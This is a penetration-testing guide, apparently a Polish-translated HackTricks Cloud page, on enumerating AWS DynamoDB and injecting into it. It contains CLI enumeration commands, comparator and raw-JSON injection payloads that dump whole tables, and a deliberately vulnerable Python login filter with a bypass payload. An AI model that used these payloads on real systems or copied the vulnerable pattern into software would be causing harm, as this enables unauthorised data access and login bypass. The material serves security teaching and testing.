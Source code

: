 # AWS - DynamoDB Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## DynamoDB

### Basic Information

Amazon DynamoDB jest przedstawiany przez AWS jako **w pełni zarządzana, bezserwerowa, klucz-wartość baza danych NoSQL**, dostosowana do zasilania aplikacji o wysokiej wydajności, niezależnie od ich rozmiaru. Usługa zapewnia solidne funkcje, w tym wbudowane środki bezpieczeństwa, nieprzerwane kopie zapasowe, automatyczną replikację w wielu regionach, zintegrowane pamięci podręczne w pamięci oraz wygodne narzędzia do eksportu danych.

W kontekście DynamoDB, zamiast tworzyć tradycyjną bazę danych, **tworzone są tabele**. Każda tabela wymaga określenia **klucza partycji** jako integralnego elementu **klucza głównego tabeli**. Ten klucz partycji, zasadniczo **wartość haszująca**, odgrywa kluczową rolę zarówno w pobieraniu elementów, jak i w dystrybucji danych w różnych hostach. Ta dystrybucja jest kluczowa dla utrzymania zarówno skalowalności, jak i dostępności bazy danych. Dodatkowo istnieje możliwość dodania **klucza sortującego**, aby jeszcze bardziej udoskonalić organizację danych.

### Encryption

Domyślnie, DynamoDB używa klucza KMS, który \*\*należy do Amazon DynamoDB,\*\* a nie nawet do zarządzanego klucza AWS, który przynajmniej należy do twojego konta.

<figure><img src="https://lh4.googleusercontent.com/JjtNS7aA-_GRMgZb4v93jWEQJi6DQdUPq0FEpzZPdeyCeNoG05p0NJiV9Zs-ULs_-Tfjmx0W1ZgsE2Ui2ljo7D-1a87Xny-gpLVQO0XmXdFoph9ci1RepbVNwaCe9oPruEZSEDxGTxF5dIv6pW1WpT6kWA=s2048" alt=""><figcaption></figcaption></figure>

### Backups & Export to S3

Możliwe jest **zaplanowanie** generowania **kopii zapasowych tabeli** lub tworzenie ich na **żądanie**. Ponadto możliwe jest również włączenie **odzyskiwania w czasie rzeczywistym (PITR) dla tabeli.** Odzyskiwanie w czasie rzeczywistym zapewnia ciągłe **kopie zapasowe** danych DynamoDB przez **35 dni**, aby pomóc w ochronie przed przypadkowymi operacjami zapisu lub usunięcia.

Możliwe jest również eksportowanie **danych tabeli do S3**, ale tabela musi mieć **włączone PITR**.

### GUI

Istnieje GUI dla lokalnych usług Dynamo, takich jak [DynamoDB Local](https://aws.amazon.com/blogs/aws/dynamodb-local-for-desktop-development/), [dynalite](https://github.com/mhart/dynalite), [localstack](https://github.com/localstack/localstack) itd., które mogą być przydatne: [https://github.com/aaronshaf/dynamodb-admin](https://github.com/aaronshaf/dynamodb-admin)

### Enumeration
```bash
# Tables
aws dynamodb list-tables
aws dynamodb describe-table --table-name <t_name> #Get metadata info
## The primary key and sort key will appear inside the KeySchema field

#Check if point in time recovery is enabled
aws dynamodb describe-continuous-backups \
--table-name tablename

# Backups
aws dynamodb list-backups
aws dynamodb describe-backup --backup-arn <arn>
aws dynamodb describe-continuous-backups --table-name <t_name>

# Global tables
aws dynamodb list-global-tables
aws dynamodb describe-global-table --global-table-name <name>

# Exports
aws dynamodb list-exports
aws dynamodb describe-export --export-arn <arn>

# Misc
aws dynamodb describe-endpoints #Dynamodb endpoints
```
### Nieautoryzowany dostęp

{% content-ref url="../aws-unauthenticated-enum-access/aws-dynamodb-unauthenticated-access.md" %}
[aws-dynamodb-unauthenticated-access.md](../aws-unauthenticated-enum-access/aws-dynamodb-unauthenticated-access.md)
{% endcontent-ref %}

### Privesc

{% content-ref url="../aws-privilege-escalation/aws-dynamodb-privesc.md" %}
[aws-dynamodb-privesc.md](../aws-privilege-escalation/aws-dynamodb-privesc.md)
{% endcontent-ref %}

### Po eksploatacji

{% content-ref url="../aws-post-exploitation/aws-dynamodb-post-exploitation.md" %}
[aws-dynamodb-post-exploitation.md](../aws-post-exploitation/aws-dynamodb-post-exploitation.md)
{% endcontent-ref %}

### Utrzymywanie

{% content-ref url="../aws-persistence/aws-dynamodb-persistence.md" %}
[aws-dynamodb-persistence.md](../aws-persistence/aws-dynamodb-persistence.md)
{% endcontent-ref %}

## Wstrzykiwanie do DynamoDB

### Wstrzykiwanie SQL

Istnieją sposoby na dostęp do danych DynamoDB za pomocą **składni SQL**, dlatego typowe **wstrzykiwania SQL są również możliwe**.

{% embed url="https://book.hacktricks.xyz/pentesting-web/sql-injection" %}

### Wstrzykiwanie NoSQL

W DynamoDB różne **warunki** mogą być używane do pobierania danych, jak w typowym wstrzykiwaniu NoSQL, jeśli możliwe jest **łączenie więcej warunków w celu pobrania** danych, można uzyskać ukryte dane (lub zrzucić całą tabelę).\
Można tutaj znaleźć warunki obsługiwane przez DynamoDB: [https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API\_Condition.html](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API\_Condition.html)

Zauważ, że **różne warunki** są obsługiwane, jeśli dane są uzyskiwane za pomocą **`query`** lub za pomocą **`scan`**.

{% hint style="info" %}
W rzeczywistości, akcje **Query** muszą określać **warunek "EQ" (równa się)** w **kluczu głównym**, aby działały, co sprawia, że są **mniej podatne na wstrzykiwania NoSQL** (a także ogranicza operację).
{% endhint %}

Jeśli możesz **zmienić porównanie** wykonywane lub dodać nowe, możesz uzyskać więcej danych.
```bash
# Comparators to dump the database
"NE": "a123" #Get everything that doesn't equal "a123"
"NOT_CONTAINS": "a123" #What you think
"GT": " " #All strings are greater than a space
```
{% embed url="https://book.hacktricks.xyz/pentesting-web/nosql-injection" %}

### Surowa injekcja Json

{% hint style="danger" %}
**Ta podatność opiera się na filtrze skanowania dynamodb, który jest teraz przestarzały!**
{% endhint %}

**DynamoDB** akceptuje obiekty **Json** do **wyszukiwania** danych w bazie. Jeśli odkryjesz, że możesz pisać w obiekcie json wysyłanym do wyszukiwania, możesz wykonać zrzut bazy danych, wszystkich jej zawartości.

Na przykład, wstrzykując w żądaniu takim jak:

{% code overflow="wrap" %}
```bash
'{"Id": {"ComparisonOperator": "EQ","AttributeValueList": [{"N": "' + user_input + '"}]}}'
```
{% endcode %}

atakujący mógłby wstrzyknąć coś takiego:

`1000"}],"ComparisonOperator": "GT","AttributeValueList": [{"N": "0`

naprawić warunek "EQ" szukając ID 1000, a następnie szukając wszystkich danych z ciągiem Id większym niż 0, co obejmuje wszystko.

Inny **wrażliwy przykład używający logowania** mógłby być:
```python
scan_filter = """{
"username": {
"ComparisonOperator": "EQ",
"AttributeValueList": [{"S": "%s"}]
},
"password": {
"ComparisonOperator": "EQ",
"AttributeValueList": [{"S": "%s"}]
}
}
""" % (user_data['username'], user_data['password'])

dynamodb.scan(TableName="table-name", ScanFilter=json.loads(scan_filter))
```
To byłoby podatne na:
```
username: none"}],"ComparisonOperator": "NE","AttributeValueList": [{"S": "none
password: none"}],"ComparisonOperator": "NE","AttributeValueList": [{"S": "none
```
### :property Injection

Niektóre SDK umożliwiają użycie ciągu wskazującego filtrację, która ma być przeprowadzona, jak: 

{% code overflow="wrap" %}
```java
new ScanSpec().withProjectionExpression("UserName").withFilterExpression(user_input+" = :username and Password = :password").withValueMap(valueMap)
```
{% endcode %}

Musisz wiedzieć, że wyszukiwanie w DynamoDB w celu **zastąpienia** wartości **atrybutu** w **wyrażeniach filtrujących** podczas skanowania elementów, tokeny powinny **zaczynać się** od znaku **`:`**. Takie tokeny będą **zastępowane** rzeczywistą **wartością atrybutu w czasie wykonywania**.

Dlatego logowanie, jak to poprzednie, można obejść za pomocą czegoś takiego:
```bash
:username = :username or :username
# This will generate the query:
# :username = :username or :username = :username and Password = :password
# which is always true
```
{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
